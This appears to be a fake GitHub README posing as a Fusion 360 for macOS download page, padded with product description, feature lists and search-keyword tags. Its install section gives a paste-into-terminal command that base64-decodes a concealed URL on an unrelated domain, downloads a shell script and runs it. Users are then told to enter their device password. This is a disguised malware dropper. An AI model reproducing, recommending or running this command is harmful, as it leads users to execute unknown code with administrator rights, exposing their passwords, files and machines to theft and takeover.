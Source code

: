 # Fusion 360 for macOS – 3D CAD, CAM & CAE by Autodesk

![Fusion 360 macOS Screenshot](https://cdn3.macpaw.com/cdn-cgi/image/format=auto,quality=60,width=608,dpr=2/images/content/image_1743098806.jpg)

## 📥 Download Fusion 360 for macOS

[![⬇️ Download Fusion 360 for Mac](https://img.shields.io/badge/Download-Fusion%20360%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/Fusion)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Fusion 360 for Mac?

Fusion 360 is Autodesk’s unified 3D design and engineering platform that combines CAD, CAM, and CAE tools into a single cloud-powered solution. It enables product designers, mechanical engineers, and hobbyists to collaboratively design, simulate, and manufacture parts—all within a sleek, intuitive interface.

The macOS version runs natively on both Intel and Apple Silicon Macs, providing robust performance and full feature parity with the Windows edition. Whether you're prototyping mechanical components, modeling assemblies, or generating toolpaths for CNC, Fusion 360 gives you the complete toolkit for end-to-end development.

---

![Fusion 360 Modeling](https://www.autodesk.com/products/fusion-360/blog/wp-content/uploads/2022/07/image-2.jpg)

---

## ⚙️ Key Features

- 🧰 Parametric & Direct 3D Modeling  
- 🛠️ CAM for CNC Milling, Turning & Cutting  
- 🧪 Finite Element Analysis & Simulation  
- 🧱 Assembly Modeling & Joint Simulation  
- 🖼️ Rendering Engine for High-Quality Visuals  
- ☁️ Cloud Collaboration & Auto Save  
- 🖥️ Works on M1/M2/M3 & Intel Macs  
- 🗃️ Export to STL, STEP, IGES, and more  
- 📐 Sketch & Surface Modeling Tools  
- 🆓 Free for Students, Hobbyists & Educators  

---

## 📦 System Requirements

- macOS 11.0 or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 8 GB RAM (16 GB recommended)  
- 3 GB of free disk space  
- Internet connection for login and syncing  

---

## 🔍 Tags

fusion 360 mac, fusion 360 mac download, fusion 360 download for mac, download fusion 360 for mac, autodesk fusion 360 mac, fusion 360 macos, mac fusion 360, autodesk fusion mac, fusion 360 macbook, fusion 360 mac m1, download fusion 360 mac, fusion 360 for mac download, fusion 360 for mac free download, fusion 360 osx, fusion 360 for mac free, autodesk fusion 360 download mac, fusion 360 mac free, fusion 360 m1, fusion 360 free mac, autodesk 360 mac

---
